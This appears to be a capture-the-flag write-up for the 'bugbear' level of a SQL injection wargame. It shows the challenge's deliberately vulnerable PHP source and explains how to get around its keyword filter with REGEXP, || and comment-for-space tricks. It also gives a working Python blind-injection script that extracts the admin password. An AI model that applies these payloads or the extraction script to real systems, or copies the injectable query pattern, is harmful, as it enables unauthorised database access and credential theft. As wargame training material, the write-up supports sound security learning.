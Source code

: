 # bugbear

-----------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

Here we have to get the admins password but there are so many filtered words. So we have to use `REGEXP` in mysql to find patterns in the password and get the password using bind injection. We also have to use `||` instead of `or` and `/**/` instead of whitespace.

I made a script to do that

```python
import requests
import string

session = requests.Session()

url = 'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?no=0/**/||/**/pw/**/REGEXP/**/"^{}"'
cookies = {"PHPSESSID": "lmscmn6uu5q675j19npln84ik4"}
pw = ""
for j in range(8):
    for i in string.printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "#?&"):
            pw += i
            print("Password :", pw)
            break

print("Password :", pw)
```

The script gives the password as `52dc3991` and giving that as the value of pw solves the level.
